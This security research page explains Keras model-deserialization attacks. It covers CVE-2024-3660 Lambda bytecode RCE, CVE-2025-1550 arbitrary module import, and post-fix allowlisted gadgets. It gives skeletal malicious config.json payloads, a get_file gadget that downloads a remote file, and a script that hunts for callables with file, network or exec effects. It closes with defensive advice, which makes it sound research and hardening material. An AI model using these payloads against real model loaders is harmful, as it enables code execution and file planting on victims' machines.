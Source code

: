 # Keras Model Deserialization RCE and Gadget Hunting


This page summarizes practical exploitation techniques against the Keras model deserialization pipeline, explains the native .keras format internals and attack surface, and provides a researcher toolkit for finding Model File Vulnerabilities (MFVs) and post-fix gadgets.

## .keras model format internals

A .keras file is a ZIP archive containing at least:
- metadata.json – generic info (e.g., Keras version)
- config.json – model architecture (primary attack surface)
- model.weights.h5 – weights in HDF5

The config.json drives recursive deserialization: Keras imports modules, resolves classes/functions and reconstructs layers/objects from attacker-controlled dictionaries.

Example snippet for a Dense layer object:

```json
{
  "module": "keras.layers",
  "class_name": "Dense",
  "config": {
    "units": 64,
    "activation": {
      "module": "keras.activations",
      "class_name": "relu"
    },
    "kernel_initializer": {
      "module": "keras.initializers",
      "class_name": "GlorotUniform"
    }
  }
}
```
```
Deserialization performs:
- Module import and symbol resolution from module/class_name keys
- from_config(...) or constructor invocation with attacker-controlled kwargs
- Recursion into nested objects (activations, initializers, constraints, etc.)

Historically, this exposed three primitives to an attacker crafting config.json:
- Control of what modules are imported
- Control of which classes/functions are resolved
- Control of kwargs passed into constructors/from_config

## CVE-2024-3660 – Lambda-layer bytecode RCE

Root cause:
- Lambda.from_config() used python_utils.func_load(...) which base64-decodes and calls marshal.loads() on attacker bytes; Python unmarshalling can execute code.

Exploit idea (simplified payload in config.json):

```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "exploit_lambda",
    "function": {
      "function_type": "lambda",
      "bytecode_b64": "<attacker_base64_marshal_payload>"
    }
  }
}
```
```
Mitigation:
- Keras enforces safe_mode=True by default. Serialized Python functions in Lambda are blocked unless a user explicitly opts out with safe_mode=False.

Notes:
- Legacy formats (older HDF5 saves) or older codebases may not enforce modern checks, so “downgrade” style attacks can still apply when victims use older loaders.

## CVE-2025-1550 – Arbitrary module import in Keras ≤ 3.8

Root cause:
- _retrieve_class_or_fn used unrestricted importlib.import_module() with attacker-controlled module strings from config.json.
- Impact: Arbitrary import of any installed module (or attacker-planted module on sys.path). Import-time code runs, then object construction occurs with attacker kwargs.

Exploit idea:

```json
{
  "module": "maliciouspkg",
  "class_name": "Danger",
  "config": {"arg": "val"}
}
```
```
Security improvements (Keras ≥ 3.9):
- Module allowlist: imports restricted to official ecosystem modules: keras, keras_hub, keras_cv, keras_nlp
- Safe mode default: safe_mode=True blocks unsafe Lambda serialized-function loading
- Basic type checking: deserialized objects must match expected types

## Post-fix gadget surface inside allowlist

Even with allowlisting and safe mode, a broad surface remains among allowed Keras callables. For example, keras.utils.get_file can download arbitrary URLs to user-selectable locations.

Gadget via Lambda that references an allowed function (not serialized Python bytecode):

```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "dl",
    "function": {"module": "keras.utils", "class_name": "get_file"},
    "arguments": {
      "fname": "artifact.bin",
      "origin": "https://example.com/artifact.bin",
      "cache_dir": "/tmp/keras-cache"
    }
  }
}
```
```
Important limitation:
- Lambda.call() prepends the input tensor as the first positional argument when invoking the target callable. Chosen gadgets must tolerate an extra positional arg (or accept *args/**kwargs). This constrains which functions are viable.

Potential impacts of allowlisted gadgets:
- Arbitrary download/write (path planting, config poisoning)
- Network callbacks/SSRF-like effects depending on environment
- Chaining to code execution if written paths are later imported/executed or added to PYTHONPATH, or if a writable execution-on-write location exists

## Researcher toolkit

1) Systematic gadget discovery in allowed modules

Enumerate candidate callables across keras, keras_nlp, keras_cv, keras_hub and prioritize those with file/network/process/env side effects.

```python
import importlib, inspect, pkgutil

ALLOWLIST = ["keras", "keras_nlp", "keras_cv", "keras_hub"]

seen = set()

def iter_modules(mod):
    if not hasattr(mod, "__path__"):
        return
    for m in pkgutil.walk_packages(mod.__path__, mod.__name__ + "."):
        yield m.name

candidates = []
for root in ALLOWLIST:
    try:
        r = importlib.import_module(root)
    except Exception:
        continue
    for name in iter_modules(r):
        if name in seen:
            continue
        seen.add(name)
        try:
            m = importlib.import_module(name)
        except Exception:
            continue
        for n, obj in inspect.getmembers(m):
            if inspect.isfunction(obj) or inspect.isclass(obj):
                sig = None
                try:
                    sig = str(inspect.signature(obj))
                except Exception:
                    pass
                doc = (inspect.getdoc(obj) or "").lower()
                text = f"{name}.{n} {sig} :: {doc}"
                # Heuristics: look for I/O or network-ish hints
                if any(x in doc for x in ["download", "file", "path", "open", "url", "http", "socket", "env", "process", "spawn", "exec"]):
                    candidates.append(text)

print("\n".join(sorted(candidates)[:200]))
```
```
2) Direct deserialization testing (no .keras archive needed)

Feed crafted dicts directly into Keras deserializers to learn accepted params and observe side effects.

```python
from keras import layers

cfg = {
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "probe",
    "function": {"module": "keras.utils", "class_name": "get_file"},
    "arguments": {"fname": "x", "origin": "https://example.com/x"}
  }
}

layer = layers.deserialize(cfg, safe_mode=True)  # Observe behavior
```
```
3) Cross-version probing and formats

Keras exists in multiple codebases/eras with different guardrails and formats:
- TensorFlow built-in Keras: tensorflow/python/keras (legacy, slated for deletion)
- tf-keras: maintained separately
- Multi-backend Keras 3 (official): introduced native .keras

Repeat tests across codebases and formats (.keras vs legacy HDF5) to uncover regressions or missing guards.

## Defensive recommendations

- Treat model files as untrusted input. Only load models from trusted sources.
- Keep Keras up to date; use Keras ≥ 3.9 to benefit from allowlisting and type checks.
- Do not set safe_mode=False when loading models unless you fully trust the file.
- Consider running deserialization in a sandboxed, least-privileged environment without network egress and with restricted filesystem access.
- Enforce allowlists/signatures for model sources and integrity checking where possible.

## References

- [[https://blog.huntr.com/hunting-vulnerabilities-in-keras-model-deserialization|Hunting Vulnerabilities in Keras Model Deserialization (huntr blog)]]
- [[https://github.com/keras-team/keras/pull/20751|Keras PR #20751 – Added checks to serialization]]
- [[https://nvd.nist.gov/vuln/detail/CVE-2024-3660|CVE-2024-3660 – Keras Lambda deserialization RCE]]
- [[https://nvd.nist.gov/vuln/detail/CVE-2025-1550|CVE-2025-1550 – Keras arbitrary module import (≤ 3.8)]]
- [[https://huntr.com/bounties/135d5dcd-f05f-439f-8d8f-b21fdf171f3e|huntr report – arbitrary import #1]]
- [[https://huntr.com/bounties/6fcca09c-8c98-4bc5-b32c-e883ab3e4ae3|huntr report – arbitrary import #2]]

